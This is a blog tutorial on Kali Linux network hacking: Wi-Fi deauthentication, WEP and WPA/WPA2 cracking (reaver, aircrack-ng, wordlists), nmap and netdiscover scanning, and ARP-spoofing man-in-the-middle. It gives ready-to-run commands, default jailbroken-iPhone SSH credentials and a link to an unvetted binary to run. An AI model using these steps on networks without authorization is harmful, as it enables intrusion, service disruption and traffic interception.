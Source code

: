 Title: Hacking with Kali Linux
Date: 2020-05-xx
Author: Jack McKew
Category: Software
Tags: software

This post will go into ways we can use Kali Linux to hack networks and PCs! What is Kali Linux? "Kali Linux is a Debian-based Linux distribution aimed at advanced Penetration Testing and Security Auditing". Kali Linux is free to download and you can find it at: <https://www.kali.org/downloads/>.

> Thank you to Chris B for helping me with the notes in this post below!

## Network Hacking

### Networking Fundamentals

#### Checking Network Configuration

Commands to use in terminal to check network state:

- `ifconfig` for all connection states
- `iwconfig` for all **wireless** connection states

The MAC address (specified by manufacturer) will be listed in `ifconfig` under `ether`. You can alter the MAC address in memory directly by:

1. Disabling that adapter `ifconfig eth0 down`
2. Reassign a new MAC address `ifconfig eth0 hw ether 00:11:22:33:44:55`

> The MAC address will be reset upon restarting or reconnecting the device.

#### Checking Wireless Networks

We can seek out wireless networks using `airodump-ng`. Ensure that your wireless access point (typically USB device) is in monitor mode with `iwconfig wlan0 mode monitor`. Now we can listen to available networks with `airodump-ng mon0` (where `mon0` is the access point in monitor mode). To listen on a variety of bands (eg, 2.4GHz and 5GHz), use the command `airodump-ng --band abg mon0`.

#### Sniffing Data from Specific Device

To sniff data to a file, the command `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`. This will sniff the data being transmitted by this device, and write it to a series of files. This data can later be analysed by programs like WireShark (because the data captured is potentially encrypted).

#### DeAuthentication Attack

This is a denial of service attack, but specifically for use in a Wi-Fi context. Ensuring to run `airodump-ng` at the same time during this attack. This is achieved with `aireplay-ng` and all that is required is to know the target MAC address (which is available in generic network sniffing (see above)).

`aireplay-ng -D --deauth [#deauthPackets] -a [NetworkMAC] -c [TargetMAC] [wifi card]`

### Gaining Access

#### Cracking WEP

1. Capture a large amount of packets `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`
2. run `aircrack-ng [filename.cap]` (leave step 1 running in the background)
    - To connect with ascii found, copy paste and connect!
    - TO CONNECT WITH KEY FOUND!, copy the key after the text provided in the square brackets, remove the colons [:], and copy paste that number when the Wi-Fi asks for a password.
    - If the network is not busy and not enough packets are being sent force the network to make packets (see step 3 in [Fake Authentication Attack](#fake-authentication-attack))

#### Fake Authentication Attack

1. run `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`
2. run `aireplay-ng --fakeauth [number of times (0 for 1 time)] -D -a [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]`
    - (Note in monitor mode MAC is the first 12 digits after unspec + replace [-] with [:] )
3. make sure your associated with the network (step 2) and run `aireplay-ng --arpreplay -b [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]`
4. then run the crack `aircrack-ng [filename.cap]`

> may want to leave all 3 running at once

### Cracking WPA/WPA2

For cracking WPA or WPA2, look out for WPS, this will enable the hack to much simpler as WPS is an 8 digit pin. Otherwise same attack as [WEP](#cracking-wep), but will take longer as WPA/WPA2 were designed to solve WEP's problems, thus more secure.

> WPS is only available if the router supports WPS (and not PBS(push button authentication))

#### With WPS

1. to find all networks with WPS enabled use `wash --interface [WirelessAdapter]`
2. to attack a network with WPS: 
    1. run fake auth on the router `aireplay-ng --fakeauth [number of times (0 for 1 time)] -D -a [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]` + leave airodump-ng in background (see WEP step 1)
    2. use reaver `reaver --bssid [targetMAC] --channel [channel] --interface [WirelessAdapter] -vvv --no-associate`
        > if reaver doesn't work use this version of reaver <https://ufile.io/lro4nkdv> make sure you run `chmod +x reaver` then `./rever [your command here]`

#### Without WPS

1. monitor and write to a file
2. deauthenticate a client to capture handshake
3. create a word list:
    1. Download a word list off the internet or:
        - Crunch can be used to create a word list using `crunch [min] [max] [characters] -t [pattern] -o [filename]`
    2. Need handshake + word list to crack WPA
    3. to begin cracking the password use `aircrack-ng [.cap file] -w [wordlist]`
        - methods to speedup
            1. use online services with handshake & word list
            2. use GPU for cracking
            3. use rainbow tables
            4. pipe word list as it is being created

### Securing your Network

- Ensure WPA2 is used with a long, complex password with letters, special characters and numbers
- Change the password to the router login (typically admin, admin)
- Disable WPS
- Specify exact MAC addresses to connect (visitors won't like this)

### Post Connection Attacks

#### Discovering Devices on the Network

Need to gather information (MAC, IP etc.), there are programs that do for you = NetDiscover, Nmap.

##### NetDiscover

- to use NetDiscover `netdiscover -r [ip_range (can only access IPs on the same subnet eg. 10.0.2.xx ends at 254 so eg. 10.0.2.1/24 /24 means all IPs]`
- use your ip address with the last .xx being .1 
- if using wireless card use `-i [wirelessCard]` before `-r` or just connect to the network.
- if not finding anything try (interface only if using Wi-Fi, MUST BE IN MANAGED/AUTO MODE)
    - `netdiscover -i <interface> <gateway IP/8>`
    - `netdiscover -i <interface> <gateway IP/16>`
    - `netdiscover -i <interface> <gateway IP/24>`
- To make sure of the gateway IP address, please route -n

##### Nmap

> Zenmap is the graphical user interface of Nmap use <zenmap>

1. in the target  use your network with xx at the end eg. 10.0.2.1/24 (see above [NetDiscover](#netdiscover))
2. in the profiles there are a number of default commands to use. (ping scan might not list everything)
3. use info found to work out things eg. does this model router have any exploits or the phone brand is samsung meaning it's running on android
4. Quick Scan(profile) - also shows open ports and the services running on these ports eg. if port 80 is open a webserver is running.
5. Quick scan plus - Quick scan but also shows Operating system, device type and the programs and program versions running on the ports.

![Nmap]({static img/nmap.png})

> Fun Note: when you jailbrake an iOS device it auto installs an ssh server with default password being: alpine, and uname: root, use `ssh root@[phone/server_ip]` then enter yes and alpine

#### ARP Attack

Address Resolution Protocol (ARP) allows us to link ip addresses to MAC addresses.

- ARP request sends a signal to all clients on the network asking who has this XXX IP the IP will respond with it's MAC address
- goal is to trick the router into thinking you are the victim and the victim into thinking you are the router. (Man in the Middle)
- Use program ARPspoof `arpspoof -i [interface(wificard)] -t [clientip] [gatewayip]` and then `arpspoof -i [interface(wificard)] -t [gatewayip] [clientip]`
    - There is also a tool called bettercap (more features).
    - ARPspoof is not default installed use `apt-get update && apt-get install -y dsniff`
- Packets will be blocked by default on linux to allow packets to flow though on linux use `echo 1 > /proc/sys/net/ipv4/ip_forward` (echo 0 to revert)
